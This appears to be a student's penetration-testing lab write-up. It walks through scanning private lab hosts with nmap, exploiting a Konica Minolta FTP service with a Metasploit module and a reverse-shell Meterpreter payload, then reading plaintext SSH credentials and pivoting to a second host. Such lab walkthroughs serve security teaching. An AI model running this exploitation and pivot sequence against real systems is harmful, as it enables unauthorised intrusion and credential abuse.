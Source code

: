 # Assigment 1
For full executive report, see [PWNChallenge1_GabriellaAhn](https://github.com/haein001/CMU_penetration-testing/blob/69735350464e7b4b88eede348b337de66701a3e0/pwnchallenge1/PWNChallenge1_GabriellaAhn.pdf).


1. Scan the host for open ports.

    ``
    nmap -open 10.20.160.10-150
    ``
    
    ``
    nmap -open 10.20.170.20-100
    ``

    10.20.160.41 host is found from 10.20.160.10-150.

2. Conduct more thorough scan of 10.20.160.41.
   
    ``
    nmap -A 10.20.160.41
    ``
    
    Port 21 is an open port for FTP from version of Konica Minolta FTP Utility. 
    
3. Open Metasploit.

    ``
    msfconsole
    ``
    
4. Since we are going to use _Konica Minolta FTP Utility_ to exploit the host, serach Konica. Use the exploit from the search result.

    ``
    search Konica
    ``
    
    ``
    use exploit/windows/ftp/kmftp_utility_cwd
    ``
   
5. Set rhost, rport, and payload.
    
    ``
    set RHOST 10.20.160.41
    ``
    
    ``
    set RPORT 21
    ``
    
    ``
    set PAYLOAD windows/meterpreter/reverse_tcp
    ``

6. Then, exploit

    ``
    exploit
    ``
    
7. Now you are in the system. Use various command to look for the flag.

    ``
    search -f proof.txt
    ``

8. In C:\Users\Fred\Desktop. there is SSH.bat which looks strange. Open the file.

    ``
    cat SSH.bat
    ``
    
    ![image](https://github.com/haein001/CMU_penetration-testing/assets/77334059/5c0d8d0e-f2cc-4c4c-ad79-2247619e3a0d)

9. Using this we are going to compromise the other host. In order to add route from present session, use autoroute.

- **autoroute:** is used to add routes associated with the specified Meterpreter session to Metasploit's routing table. These routes can be used to pivot to private networks and resources that can be accessed by the compromised machine.

    It will make my current session into background session.

    ``
    run autoroute -s 10.20.170.0
    ``
    
    ``
    run autoroute -p
    ``
    
    ``
    background
    ``
    
10. Search ssh_login, to use the information from the SSH.bat.

    ``
    search ssh_login
    ``
    
11. Set the basic information for the exploit.

    ``
    use auxiliary/scanner/ssh/ssh_login
    ``
    
    ``
    set USERNAME jill
    ``
    
    ``
    set PASSWORD JillIs100%Awesome
    ``
    
    ``
    set rhost 10.20.170.87
    ``
    
    ``
    exploit
    ``

12. After succesfully logging into the machine, check the session you are in and go to the new session that is created.

    ``
    sessions -i
    ``
    
    ``
    sessions -i (number of the session)
    ``
    
13.  Then, use linux command to search the proof.txt.

